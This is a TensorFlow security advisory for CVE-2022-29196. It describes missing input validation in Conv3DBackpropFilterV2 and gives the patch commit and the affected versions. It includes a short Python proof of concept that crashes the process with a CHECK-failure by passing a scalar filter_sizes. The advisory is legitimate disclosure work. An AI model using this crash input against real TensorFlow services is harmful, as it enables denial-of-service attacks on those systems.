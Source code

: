 ## TFSA-2022-070: Missing validation causes denial of service via `Conv3DBackpropFilterV2`

### CVE Number
CVE-2022-29196

### Impact
The implementation of [`tf.raw_ops.Conv3DBackpropFilterV2`](https://github.com/tensorflow/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/conv_grad_ops_3d.cc) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

tf.raw_ops.Conv3DBackpropFilterV2(
  input=tf.constant(.5053710941, shape=[2,2,2,2,1], dtype=tf.float16),
  filter_sizes=tf.constant(0, shape=[], dtype=tf.int32),
  out_backprop=tf.constant(.5053710941, shape=[2,2,2,2,1], dtype=tf.float16),
  strides=[1, 1, 1, 1, 1],
  padding="VALID",
  data_format="NDHWC",
  dilations=[1, 1, 1, 1, 1])
```

The code does not validate that the `filter_sizes` argument is a vector.

### Patches
We have patched the issue in GitHub commit [174c5096f303d5be7ed2ca2662b08371bff4ab88](https://github.com/tensorflow/tensorflow/commit/174c5096f303d5be7ed2ca2662b08371bff4ab88).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
